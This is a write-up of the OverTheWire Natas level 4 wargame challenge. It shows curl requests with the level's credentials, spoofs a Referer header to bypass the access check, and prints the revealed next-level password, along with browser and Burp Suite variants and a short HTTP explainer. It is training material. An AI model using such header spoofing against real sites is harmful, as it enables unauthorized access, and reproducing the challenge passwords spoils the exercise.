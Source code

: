 # Natas Level 3 → Level 4

## 🧠 Goal

Find password to the next level

---

## 🔐 Credentials

- **Username:** `natas4`  
- **Host:** `http://natas4.natas.labs.overthewire.org`   
- **Port:** `80` (HTTP)  
- **Password:** `QryZXc2e0zahULdHrtHxzyYkj59kUxLQ` 

---

## 🖥️ Commands Used

```bash
└─$ curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org  
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>

┌──(amro㉿amro)-[~]
└─$ curl -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ http://natas4.natas.labs.overthewire.org \
> -H "Referer: http://natas5.natas.labs.overthewire.org/"
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "QryZXc2e0zahULdHrtHxzyYkj59kUxLQ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```
![level_04](./images/level_04.png)

___
## Anoter Solution
Right click on the main request then presse edit and resend then add Referer with http://natas5.natas.labs.overthewire.org

![level_04a](./images/level_04a.png)

---
## Another one
 you can also use burp suite open its browser and in the target section right click on the GET request and press "send to repeater " and there you modify the Referer value and send it and see the response

## 💡 Theory


The communication between the client (our machine) and the server (that hosts the website) is done by a request-response. We sent a request for a certain page and the server sends the response with the content. Generally, they will follow different protocols and structures, which depend on the service. In this case, it is HTTP (Hypertext Transfer Protocol). The request generally includes the request method (GET, POST,…), the requested URL and the protocol version. However, it can also include additional, potentially needed information, through so-called request headers. There are many such fields, some more common than others. Relevant ones for this challenge are ‘Authorization’, which would include the credentials for the website and ‘Referer’, which is the URL/webpage from which the request is sent. Generally, all this is handled by our browser and we do not have to worry about it. It is however possible to manipulate requests
___

## 📤 Output
```bash
0n35PkggAPm2zbEpOU802c0x0Msn1ToK
```

